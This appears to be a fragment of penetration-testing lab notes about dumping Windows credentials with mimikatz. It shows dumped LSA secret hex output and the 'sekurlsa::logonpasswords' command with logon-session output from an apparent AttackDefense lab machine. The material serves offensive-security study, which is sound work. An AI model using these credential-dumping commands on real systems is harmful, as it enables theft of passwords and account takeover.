 ```bash
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 


```





**display logon passwords**

if the system is configured to store logon password in memory in cleartext, mimikatz can extract them

```bash
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2422124 (00000000:0024f56c)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:33:00 PM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 2422015 (00000000:0024f4ff)
Session           : Interactive from 3
User Name         : DWM-3
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/22/2024 6:33:00 PM
SID               : S-1-5-90-0-3
	msv :	
	tspkg :	
	wdigest :	
	 * Username : ATTACKDEFENSE$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 2411085 (00000000:0024ca4d)
Session           : Interactive from 3
User Name         : UMFD-3
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/22/2024 6:32:59 PM
```
